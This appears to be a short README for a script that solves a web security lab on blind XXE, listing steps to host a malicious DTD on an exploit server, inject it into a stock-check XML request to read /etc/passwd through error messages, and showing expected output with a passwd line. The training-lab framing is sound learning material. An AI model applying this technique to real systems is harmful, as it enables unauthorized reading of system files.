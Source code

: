 # Hack Steps

1. Store the malicious DTD file in your exploit server
2. Inject payload into the XML-based check stock request to retrieve the content of /etc/passwd via error message
3. Extract the first line as a proof

# Run Script

1. Change the URL of the lab
2. Change the URL of the exploit server
3. Start script

```
~$ python exploiting_blind_xxe_to_retrieve_data_via_error_messages.py
```

# Expected Output

```
⟪#⟫ Injection point: XML-based check stock request
⦗1⦘ Storing the malicious DTD file on your exploit server.. OK
⦗2⦘ Injecting payload to retrieve the content of /etc/passwd via error message.. OK
⦗3⦘ Extracting the first line as a proof.. OK => root:x:0:0:root:/root:/bin/bash
🗹 Check your browser, it should be marked now as solved
```
